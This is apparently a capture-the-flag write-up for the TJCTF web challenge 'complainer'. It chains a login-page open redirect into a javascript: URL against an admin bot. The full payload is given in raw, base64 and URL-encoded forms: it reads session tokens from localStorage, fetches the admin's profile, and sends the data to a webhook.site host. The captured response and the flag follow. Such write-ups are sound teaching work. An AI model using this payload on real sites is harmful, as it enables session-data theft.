


# complainer
Category: Web

## Description
I have A LOT to complain about, so I made a website to scream into the void!

[complainer.tjc.tf](https://complainer.tjc.tf/)

[Admin Bot](https://admin-bot.tjctf.org/complainer)

Attachments: [admin-bot.js](attachments/admin-bot.js), [server.zip](attachments/server.zip)

## Write-up
Upon accessing the provided URL, we encounter the following page:


We proceeded by registering an account:


After logging in to our account, we are greeted with this page:



If we provide an input like `I WANT FLAG` and submit the form, we see the following:



Nothing particularly interesting stands out from this result.

Next, we proceed to analyze the provided source code. After examination, we discover some useful information.

Firstly, in the `public/profile.js` file, we find that when an authenticated user accesses `/profile`, the browser fetches all the posts of the authenticated user:

```
fetch('/api/verify', {
    method: 'GET',
    headers: {
        'Authorization': `Bearer ${localStorage.getItem('userId')}:${localStorage.getItem('sessionId')}`
    }
}).then(res => res.json()).then(res => {
    if (!res.ok)
        throw res.error;
}).catch(_ => {
    localStorage.removeItem('sessionId');
    localStorage.removeItem('userId');
    window.location = '/login';
});


fetch(`/api/profile`, {
    method: 'GET',
    headers: {
        'Authorization': `Bearer ${localStorage.getItem('userId')}:${localStorage.getItem('sessionId')}`
    }
}).then(res => res.json()).then(res => {
    console.log(res);
    for (const [idx, post] of res.user.posts.entries()) {
        const complaint = document.createElement('div');
        complaint.id = `complaint-${idx}`;
        complaint.className = 'complaint';

        complaint.innerHTML = [...post.body].map((c, i) => `<a href='/post/${post.id}' id='${idx}-${i}-${c}'>${c}</a>`).join('');

        document.getElementById('complaints').appendChild(complaint);

        const anchors = document.querySelectorAll(`#complaint-${idx} > a`);

        anchors.forEach((a, i) => {
            let size = 1;
            setInterval(() => {
                a.style.fontSize = `${(i + 1) / anchors.length * size}em`;
                size += 0.1;
            }, 100);
        });
    }
})
```

Secondly, in the `public/login.js` file, we observe that when a user attempts to log in, we can optionally provide a `next` query parameter that redirects to the location specified by `next` after successful authentication.

```
function redirect() {
    if ('sessionId' in localStorage && 'userId' in localStorage)
        window.location = new URLSearchParams(window.location.search).get('next') ?? '/';
}

redirect();
```

With these two pieces of information, we can attempt to chain our exploit as follows:

1. The Admin logs in, with the `next` parameter pointing to a JavaScript payload using the `javascript` protocol.
2. The JavaScript payload includes logic to make a `fetch` request to `/profile` to retrieve all posts of the Admin.
3. Subsequently, we redirect the Admin to our web hook, appending the retrieved posts information as part of the request.

The following is the raw JavaScript payload to fetch all posts of the current authenticated user and redirect to the web hook with the posts information:

```
fetch("https://complainer.tjc.tf/api/profile",  {
headers: {
        'Content-Type': 'application/json',
        'Authorization': `Bearer ${localStorage.getItem('userId')}:${localStorage.getItem('sessionId')}`
   }
}).then(res => res.text()).then(res => {
location.href = "https://webhook.site/2cb2e48a-7c4c-4bab-9567-1cd52ad4c253/" + res
})
```

We can encode our payload using base64 and then URL encode it to minimize parsing issues.

Base64 encoded:

```
javascript:eval(atob("ZmV0Y2goImh0dHBzOi8vY29tcGxhaW5lci50amMudGYvYXBpL3Byb2ZpbGUiLCAgewpoZWFkZXJzOiB7CiAgICAgICAgJ0NvbnRlbnQtVHlwZSc6ICdhcHBsaWNhdGlvbi9qc29uJywKICAgICAgICAnQXV0aG9yaXphdGlvbic6IGBCZWFyZXIgJHtsb2NhbFN0b3JhZ2UuZ2V0SXRlbSgndXNlcklkJyl9OiR7bG9jYWxTdG9yYWdlLmdldEl0ZW0oJ3Nlc3Npb25JZCcpfWAKICAgfQp9KS50aGVuKHJlcyA9PiByZXMudGV4dCgpKS50aGVuKHJlcyA9PiB7CmxvY2F0aW9uLmhyZWYgPSAiaHR0cHM6Ly93ZWJob29rLnNpdGUvMmNiMmU0OGEtN2M0Yy00YmFiLTk1NjctMWNkNTJhZDRjMjUzLyIgKyByZXMKfSk="))
```

URL encoded:

```
javascript%3Aeval%28atob%28%22ZmV0Y2goImh0dHBzOi8vY29tcGxhaW5lci50amMudGYvYXBpL3Byb2ZpbGUiLCAgewpoZWFkZXJzOiB7CiAgICAgICAgJ0NvbnRlbnQtVHlwZSc6ICdhcHBsaWNhdGlvbi9qc29uJywKICAgICAgICAnQXV0aG9yaXphdGlvbic6IGBCZWFyZXIgJHtsb2NhbFN0b3JhZ2UuZ2V0SXRlbSgndXNlcklkJyl9OiR7bG9jYWxTdG9yYWdlLmdldEl0ZW0oJ3Nlc3Npb25JZCcpfWAKICAgfQp9KS50aGVuKHJlcyA9PiByZXMudGV4dCgpKS50aGVuKHJlcyA9PiB7CmxvY2F0aW9uLmhyZWYgPSAiaHR0cHM6Ly93ZWJob29rLnNpdGUvMmNiMmU0OGEtN2M0Yy00YmFiLTk1NjctMWNkNTJhZDRjMjUzLyIgKyByZXMKfSk%3D%22%29%29
```

Finally, the URL to be sent to the Admin bot is [https://complainer.tjc.tf/login?next=https://complainer.tjc.tf/login?next=javascript%3Aeval%28atob%28%22ZmV0Y2goImh0dHBzOi8vY29tcGxhaW5lci50amMudGYvYXBpL3Byb2ZpbGUiLCAgewpoZWFkZXJzOiB7CiAgICAgICAgJ0NvbnRlbnQtVHlwZSc6ICdhcHBsaWNhdGlvbi9qc29uJywKICAgICAgICAnQXV0aG9yaXphdGlvbic6IGBCZWFyZXIgJHtsb2NhbFN0b3JhZ2UuZ2V0SXRlbSgndXNlcklkJyl9OiR7bG9jYWxTdG9yYWdlLmdldEl0ZW0oJ3Nlc3Npb25JZCcpfWAKICAgfQp9KS50aGVuKHJlcyA9PiByZXMudGV4dCgpKS50aGVuKHJlcyA9PiB7CmxvY2F0aW9uLmhyZWYgPSAiaHR0cHM6Ly93ZWJob29rLnNpdGUvMmNiMmU0OGEtN2M0Yy00YmFiLTk1NjctMWNkNTJhZDRjMjUzLyIgKyByZXMKfSk%3D%22%29%29](https://complainer.tjc.tf/login?next=https://complainer.tjc.tf/login?next=javascript%3Aeval%28atob%28%22ZmV0Y2goImh0dHBzOi8vY29tcGxhaW5lci50amMudGYvYXBpL3Byb2ZpbGUiLCAgewpoZWFkZXJzOiB7CiAgICAgICAgJ0NvbnRlbnQtVHlwZSc6ICdhcHBsaWNhdGlvbi9qc29uJywKICAgICAgICAnQXV0aG9yaXphdGlvbic6IGBCZWFyZXIgJHtsb2NhbFN0b3JhZ2UuZ2V0SXRlbSgndXNlcklkJyl9OiR7bG9jYWxTdG9yYWdlLmdldEl0ZW0oJ3Nlc3Npb25JZCcpfWAKICAgfQp9KS50aGVuKHJlcyA9PiByZXMudGV4dCgpKS50aGVuKHJlcyA9PiB7CmxvY2F0aW9uLmhyZWYgPSAiaHR0cHM6Ly93ZWJob29rLnNpdGUvMmNiMmU0OGEtN2M0Yy00YmFiLTk1NjctMWNkNTJhZDRjMjUzLyIgKyByZXMKfSk%3D%22%29%29).

After submitting the payload to the Admin bot, the following URL was intercepted by our web hook: [https://webhook.site/2cb2e48a-7c4c-4bab-9567-1cd52ad4c253/%7B%22user%22:%7B%22username%22:%22b1198c214d8e88007ceedb913174128f%22,%22userId%22:%224c6bdde5-01b3-461b-9e13-874bc6febfa1%22,%22posts%22:[%7B%22id%22:%2200b11c42-b400-41e3-a053-5cad7d4cdac2%22,%22userId%22:%224c6bdde5-01b3-461b-9e13-874bc6febfa1%22,%22body%22:%22tjctf%7Bgrrrrrrrrr_315b9c0f%7D%22%7D]%7D,%22ok%22:true%7D](https://webhook.site/2cb2e48a-7c4c-4bab-9567-1cd52ad4c253/%7B%22user%22:%7B%22username%22:%22b1198c214d8e88007ceedb913174128f%22,%22userId%22:%224c6bdde5-01b3-461b-9e13-874bc6febfa1%22,%22posts%22:[%7B%22id%22:%2200b11c42-b400-41e3-a053-5cad7d4cdac2%22,%22userId%22:%224c6bdde5-01b3-461b-9e13-874bc6febfa1%22,%22body%22:%22tjctf%7Bgrrrrrrrrr_315b9c0f%7D%22%7D]%7D,%22ok%22:true%7D)

Decoding the URL provides the output that reveals our flag:

```
https://webhook.site/2cb2e48a-7c4c-4bab-9567-1cd52ad4c253/{"user":{"username":"b1198c214d8e88007ceedb913174128f","userId":"4c6bdde5-01b3-461b-9e13-874bc6febfa1","posts":[{"id":"00b11c42-b400-41e3-a053-5cad7d4cdac2","userId":"4c6bdde5-01b3-461b-9e13-874bc6febfa1","body":"tjctf{grrrrrrrrr_315b9c0f}"}]},"ok":true}
```

Flag: `tjctf{grrrrrrrrr_315b9c0f}`
